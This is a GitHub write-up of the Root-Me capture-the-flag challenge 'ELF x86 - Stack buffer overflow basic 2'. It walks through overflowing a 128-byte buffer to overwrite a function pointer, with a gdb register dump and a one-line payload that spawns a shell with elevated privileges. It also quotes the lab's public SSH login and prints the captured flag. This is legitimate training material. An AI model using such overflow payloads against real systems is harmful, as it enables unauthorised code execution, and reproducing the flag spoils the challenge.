 # ELF x86 - Stack buffer overflow basic 2
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-2
```
Pwn the binary, read the flag in .passwd.

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge04.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch15@challenge02.root-me.org  
Username	app-systeme-ch15
Password	app-systeme-ch15
```
Like [ELF x86 - Stack buffer overflow basic 1](https://github.com/galbarak4/RootMe-Challenges/tree/master/System/ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%201), there is a _buf_ variable (128 bytes).
But now there is a function pointer, _func_. Again no (serious) boundary check, so one can overflow the _buf_ variable and set the _func_ pointer to point to whatever he needs.<br>

First, let's verify that 132 bytes are enough for overwriting the _func_ pointer:
```gdb
(gdb) run < <(python -c "print 'A'*128+'DDDD'")
Starting program: /challenge/app-systeme/ch15/ch15 < <(python -c "print 'A'*128+'DDDD'")

Breakpoint 4, 0x080484c7 in main ()
(gdb) info registers
eax            0x44444444	1145324612
ecx            0xbffffafc	-1073743108
edx            0xb7fd18a4	-1208149852
ebx            0xb7fd0000	-1208156160
esp            0xbffffae0	0xbffffae0
ebp            0xbffffb88	0xbffffb88
esi            0x0	0
edi            0x0	0
eip            0x80484c7	0x80484c7 <main+59>
eflags         0x286	[ PF SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

As you may notice, the **eax** register set to "DDDD", right before the instruction ```call   *%eax```.<br>
Now, all left to do is change the "DDDD" to the **shell** function, and the program would call it:
```sh
app-systeme-ch15@challenge02:~$ cat <(python -c "print 'A'*128+'\x64\x84\x04\x08'") - | ./ch15
id
uid=1115(app-systeme-ch15) gid=1115(app-systeme-ch15) euid=1215(app-systeme-ch15-cracked) groups=1215(app-systeme-ch15-cracked),100(users),1115(app-systeme-ch15)
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```

